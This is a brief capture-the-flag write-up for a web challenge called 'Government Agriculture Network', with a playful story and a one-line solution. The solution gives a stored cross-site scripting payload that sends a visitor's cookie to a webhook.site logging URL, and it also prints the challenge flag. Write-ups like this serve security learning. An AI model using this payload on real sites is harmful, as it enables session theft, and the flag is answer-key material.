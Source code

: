 # CTF Name – Government Agriculture Network

* **Category:** easier/web
* **Points:** 2

## Challenge

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Solution

Used ```webhook.site``` which creates a unique url for you. Any requests sent to that url are logged there. Then, made a post on ```https://govagriculture.web.ctfcompetition.com/``` with the following script ```<script>document.location="urlfromwebhook.site?stolenCookie="+document.cookie</script>```

```
The cookie has the following flag ```CTF{8aaa2f34b392b415601804c2f5f0f24e}```
```
